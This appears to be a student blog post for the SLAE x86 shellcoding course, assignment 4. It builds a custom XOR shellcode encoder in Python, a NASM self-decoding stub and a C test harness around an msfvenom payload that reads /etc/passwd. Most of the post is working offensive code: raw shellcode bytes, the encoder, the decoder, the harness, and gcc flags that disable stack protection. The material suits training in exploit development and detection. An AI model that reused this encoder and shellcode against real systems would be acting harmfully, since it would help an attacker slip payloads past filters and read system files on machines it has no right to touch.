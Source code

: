# Assignment 4: Custom Encoder

- Create a custom encoding scheme like the “Insertion Encoder” we showed you 
- PoC with using execve-stack as the shellcode to encode with your schema and execute 



For this assignment, I will be taking an msfpayload and writing a python script to encode it. Then I will wrap the msfvenomm payload in some assmebly that will decode itself in place and execute.

The msfvenom payload I will encode is generated with:

```bash
msfvenom -p linux/x86/read_file -f c PATH=/etc/passwd  -b '\x00'
```

This results in the following shellcode:
```c
"\xdd\xc1\xbf\x50\xc4\x41\xa4\xd9\x74\x24\xf4\x5a\x2b\xc9\xb1\x13\x31\x7a\x18\x03\x7a\x18\x83\xc2\x54\x26\xb4\x4f\x62\x1e\x32\x90\x8a\x5e\x66\xa1\x43\x93\x18\x48\x90\x94\x1a\x4b\x16\xe5\x95\xac\x9f\x1c\x1f\x32\x8f\xde\x60\xfe\x2f\x57\xa2\xb8\x2b\x68\x23\xb9\x88\x69\x23\xb9\xee\xa4\xa3\x01\xef\x36\xa4\x71\x54\x36\xa4\x71\xaa\xfa\x24\x99\x6f\xfb\xda\xa5\x40\x61\x51\x39\xb1\x19\xf8\xce\xbe\xae\x9e\x30"
```

# Encoding: Python

My python script that will do the encoding is below:

```python
#!/bin/python3
import random
import binascii


# msfvenom -p linux/x86/read_file -f c PATH=/etc/passwd  -b '\x00'
payload = b"\xbe\xd4\xa1\x45\x1e\xda\xc1\xd9\x74\x24\xf4\x5d\x29\xc9\xb1\x13\x31\x75\x13\x83\xed\xfc\x03\x75\xdb\x43\xb0\xf5\xd5\x3b\x3e\x0a\x19\x3c\x1a\x3b\xd0\xf1\x1c\xb2\x21\xb1\x1e\xc5\xa5\xc2\xa9\x22\x2c\x3b\x13\xac\x3e\xbc\x64\x60\xbe\x35\xa6\xc2\xba\x45\x27\x33\x79\x44\x27\x33\x7d\x8a\xa7\x8b\x7c\x14\xa8\xeb\xc5\x14\xa8\xeb\x39\xd8\x28\x03\xfc\x1d\xd7\x2b\xd1\x84\x5c\xb7\x02\x37\xfc\x44\x2f\xc0\x9a\xaa"

bad_bytes = [ 0xff, 0x00 ]

output = ""
for b in payload:
    # new random byte to xor with
    while True:
        rand_byte = random.randbytes(1)

        # xor real shellcode byte with randomly generated byte
        new_shellcode_byte = b ^ int.from_bytes(rand_byte, 'little')

        # check if new shellcode will contatin 0xff or 0x00    
        if not rand_byte in bad_bytes and not new_shellcode_byte in bad_bytes:
            break
        print("FOUND 0xFF or 0x00 in rand_byte or new_shellcode_byte, generating new random byte!!")
        
    # print(f"{hex(b)} ^ {hex(int.from_bytes(rand_byte, 'little'))} = {hex(new_shellcode_byte)}")
    output += '\\x' + binascii.hexlify(rand_byte).decode('utf-8')
    output += '\\x' + hex(new_shellcode_byte)[2:].zfill(2)

# append our end stub to the end of our payload. This signifies the exit condition.
output += '\\xff\\xff'


print(f"\n{output}\n")
print(", 0x".join(output.split('\\x'))[2:])
print("\nlength: " + str(len(output.split('\\x')) - 1), " - hex: ", str(hex(len(output.split('\\x')) - 1)))
```

This script accepts the original shellcode in the `payload` variable. It then iterates and generates a random byte to xor with each byte of the original payload.

The new shellcode will be in the form of `<random_byte><old_byte ^ random_byte>`. 

If either of these bytes are a `0x00` or `0xff`, a new random byte is generated and the old shellcode is xor'd with the new random byte. This is to avoid `0x00` in the new payload and `0xff` which will be appended as the exit condition during decoding. Additionally, a `bad_bytes` array is used, thus it is trivial to add additional bad characters you would like to avoid in the final shellcode (note that 0xff is required as it is the exit condition).

# Decoder: Assembly

```assembly
; Filename: custom_decode.nasm
; read /etc/passwd


global _start

section .text
_start:
	jmp _shellcode


_decode_stub:
	pop esi 						; ptr to encoded_shellcode
	xor ecx, ecx			
	mul ecx							; ecx, edx, eax all cleared
	xor ebx, ebx					; ebx cleared

_loop:
	mov dl, byte [esi + ecx]		; mov random byte to dl
	mov bl, byte [esi + ecx + 1]	; mov next instruction to be xor'ed
	
	; exit condition
	cmp bl, 0xff 					; is next byte to xor a 0xff 
	jz _execute
	
	xor bl, dl
	mov byte [esi + eax], bl		; move dl to shellcode
	add ecx, 0x2
	inc eax
	jmp _loop


_execute:
	jmp esi


; section .data						; need .data section to be writable
									; OR, compile with 'ld -N' to make .text section not read-only
_shellcode:
	call _decode_stub
	encoded_shellcode: db 0x8b, 0x56, 0x97, 0x56, 0xab, 0x14, 0x77, 0x27, 0x8e, 0x4a, 0x1b, 0x5a, 0x9a, 0x3e, 0x22, 0xfb, 0xc8, 0xbc, 0xef, 0xcb, 0x74, 0x80, 0x91, 0xcb, 0x1c, 0x37, 0x55, 0x9c, 0xce, 0x7f, 0x9c, 0x8f, 0x17, 0x26, 0xb3, 0xc9, 0x90, 0x88, 0x66, 0x65, 0xf2, 0x88, 0x7b, 0x63, 0xcb, 0x48, 0x78, 0xba, 0x40, 0x14, 0x23, 0x05, 0x91, 0x25, 0xa2, 0xed, 0xd7, 0xb5, 0x01, 0x1f, 0xd2, 0xe0, 0xae, 0x3e, 0xef, 0x65, 0x0f, 0x51, 0x37, 0x51, 0x45, 0xe4, 0xe9, 0xaa, 0xcb, 0x58, 0x4a, 0x52, 0x83, 0xcb, 0xf9, 0x69, 0x3b, 0xaf, 0x2b, 0x31, 0x86, 0xcd, 0x28, 0x3e, 0xd1, 0x34, 0xf3, 0x66, 0xed, 0x41, 0x42, 0xdd, 0xb4, 0xa8, 0x59, 0x46, 0x81, 0xb3, 0x77, 0xf8, 0xca, 0x14, 0x76, 0x16, 0x04, 0xfa, 0x96, 0xb9, 0x82, 0xd5, 0xd3, 0x71, 0x7d, 0xc5, 0x7e, 0x55, 0xcc, 0xa4, 0x86, 0xa5, 0x6e, 0xd7, 0x66, 0xee, 0xd4, 0xbd, 0xcc, 0xef, 0x5d, 0xe4, 0x78, 0x96, 0xe7, 0x43, 0xd4, 0x77, 0x71, 0x70, 0xb7, 0x58, 0x9d, 0xab, 0xb6, 0x12, 0x74, 0x05, 0xfe, 0xaa, 0x4a, 0x7c, 0xb5, 0x11, 0x42, 0x33, 0x09, 0xa3, 0xc2, 0x38, 0x3f, 0x1b, 0xf5, 0x6c, 0xd7, 0xb8, 0xbd, 0x46, 0x09, 0xd3, 0x66, 0xc3, 0x5b, 0x1b, 0x08, 0x69, 0x77, 0x26, 0xb4, 0x8d, 0x16, 0xa7, 0xcd, 0xd4, 0x76, 0x8e, 0x1c, 0xd2, 0x75, 0xcb, 0x94, 0x3a, 0x09, 0x97, 0x39, 0x09, 0xff, 0xff

```

Here, the `encoded_shellcode` is the output from the previous python encoder script.

This assembly just reverses the encoding process. First, a pointer to the original shellcode is loaded into the `esi` register using the jmp, call, pop technique.

It then jumps by 2 bytes during each loop and grabs the random_byte in `dl` and the xor'd original byte in `bl`. It then xor's these two values for the actual original byte, and overwrites the encoded shellcode in place.

Once an `0xff` is found, the exit condition has been met, and the code jumps to the position pointed at by `esi`, the decoded shellcode.

# Testing

This can be tested with the following test_decoder.c file:
```c
#include <sys/mman.h>
#include <stdio.h>
#include <string.h>

unsigned char code[] = "\xeb\x20\x5e\x31\xc9\xf7\xe1\x31\xdb\x8a\x14\x0e\x8a\x5c\x0e\x01\x80\xfb\xff\x74\x0b\x30\xd3\x88\x1c\x06\x83\xc1\x02\x40\xeb\xe9\xff\xe6\xe8\xdb\xff\xff\xff\x8b\x56\x97\x56\xab\x14\x77\x27\x8e\x4a\x1b\x5a\x9a\x3e\x22\xfb\xc8\xbc\xef\xcb\x74\x80\x91\xcb\x1c\x37\x55\x9c\xce\x7f\x9c\x8f\x17\x26\xb3\xc9\x90\x88\x66\x65\xf2\x88\x7b\x63\xcb\x48\x78\xba\x40\x14\x23\x05\x91\x25\xa2\xed\xd7\xb5\x01\x1f\xd2\xe0\xae\x3e\xef\x65\x0f\x51\x37\x51\x45\xe4\xe9\xaa\xcb\x58\x4a\x52\x83\xcb\xf9\x69\x3b\xaf\x2b\x31\x86\xcd\x28\x3e\xd1\x34\xf3\x66\xed\x41\x42\xdd\xb4\xa8\x59\x46\x81\xb3\x77\xf8\xca\x14\x76\x16\x04\xfa\x96\xb9\x82\xd5\xd3\x71\x7d\xc5\x7e\x55\xcc\xa4\x86\xa5\x6e\xd7\x66\xee\xd4\xbd\xcc\xef\x5d\xe4\x78\x96\xe7\x43\xd4\x77\x71\x70\xb7\x58\x9d\xab\xb6\x12\x74\x05\xfe\xaa\x4a\x7c\xb5\x11\x42\x33\x09\xa3\xc2\x38\x3f\x1b\xf5\x6c\xd7\xb8\xbd\x46\x09\xd3\x66\xc3\x5b\x1b\x08\x69\x77\x26\xb4\x8d\x16\xa7\xcd\xd4\x76\x8e\x1c\xd2\x75\xcb\x94\x3a\x09\x97\x39\x09\xff\xff";


int main(){
  printf("Shellcode length: %d\n", strlen(code));
  int r =  mprotect((void *)((int)code & ~4095),  4096, PROT_READ | PROT_WRITE|PROT_EXEC);
  printf("mprotect: %d\n",r);
  int (*ret)() = (int(*)())code;
  return ret();
}
```


To obtain the `code` here, we compile and link the assembly defined above. However, due to the large data blob of the encoded shellcode, I was receiving errors when trying to execute this test_decoder.c file. Upon further inspection, I noticed my previous function to dump shellcode was removing important bytes from my shellcode. Thus, I rewrote it to (hopefully) be more consistant:

```bash
dump-shellcode () {
    # OLD METHOD
    # objdump -d "$1" |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

    # NEW METHOD
    objdump -d "$1" |grep '[0-9a-f]:' | grep -v file | cut -d':' -f2- | sed 's/^\W*//g' | grep -Po "^([0-9a-f]{2} )+" | tr -d '\n' | sed 's/\W/\\x/g' | sed 's/^/\\x/g' | rev | cut -c3- |rev
}
```

running `dump-shellcode <compiled_linked_assembly_binary>` resulted in the full encoded shellcode and worked flawlessly. 

Once the `test.c` file is in order, it can be compiled and ran using:
```bash
gcc -fno-stack-protector -z execstack -m32 template.c -o test_decoder
./test_decoder
``` 



# Certification Requirements

This blog post has been created for completing the requirements of the SecurityTube/PentesterAcademy [x86 Assembly Language and Shellcoding on Linux (SLAE)](https://www.pentesteracademy.com/course?id=3) certification:

Student ID: SLAE-alecjmaly
